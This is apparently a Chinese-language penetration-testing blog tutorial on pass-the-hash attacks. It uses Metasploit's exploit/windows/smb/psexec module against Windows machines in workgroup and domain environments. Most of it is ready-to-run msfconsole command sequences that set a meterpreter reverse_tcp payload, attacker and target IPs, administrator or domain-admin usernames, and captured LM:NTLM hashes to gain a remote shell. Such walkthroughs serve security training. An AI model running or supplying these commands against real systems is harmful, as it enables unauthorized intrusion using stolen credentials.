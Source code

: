 
关于NTLM认证：[NTLM认证](https://blog.csdn.net/qq_36119192/article/details/85941222#NTLM%E7%9A%84%E8%AE%A4%E8%AF%81%E6%96%B9%E5%BC%8F%28%E5%B7%A5%E4%BD%9C%E7%BB%84%E7%8E%AF%E5%A2%83%E4%B8%AD%29 "NTLM认证")



### MSF进行哈希传递攻击PtH(工作组)



有些时候，当我们获取到了某台主机的 administrator 用户的密码哈希值 ，并且该主机的445端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用MSF进行远程登录(哈希传递攻击)。这个是rhost可以是一个主机，也可以设置一个网段。



这里目标主机的WindowsVista之后的机器，所以只能使用administrator用户进行攻击。



**工作组环境，必须是administrator用户**



```
msf > use  exploit/windows/smb/psexec      
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp      
msf exploit(psexec) > set lhost 192.168.10.27      
msf exploit(psexec) > set rhost 192.168.10.14      
msf exploit(psexec) > set smbuser Administrator      
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了      
msf exploit(psexec) > exploit
```




![](https://img-blog.csdnimg.cn/20181129171249927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### MSF进行哈希传递攻击PtH(域)



当我们获取到了域管理员组内用户的密码哈希值 ，并且该主机的445端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用MSF进行哈希传递攻击。



**域环境，域管理员组内用户即可**



```
msf > use  exploit/windows/smb/psexec      
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp      
msf exploit(psexec) > set lhost 192.168.10.11      
msf exploit(psexec) > set rhost 192.168.10.131      
msf exploit(psexec) > set smbuser test   #test用户在域管理员组内，注意这里不需要写域前缀      
msf exploit(psexec) > set smbpass AADA8EDA23213C020B0C478392B5469F:51B7F7DCA9302C839E48D039EE37F0D1      
msf exploit(psexec) > exploit
```

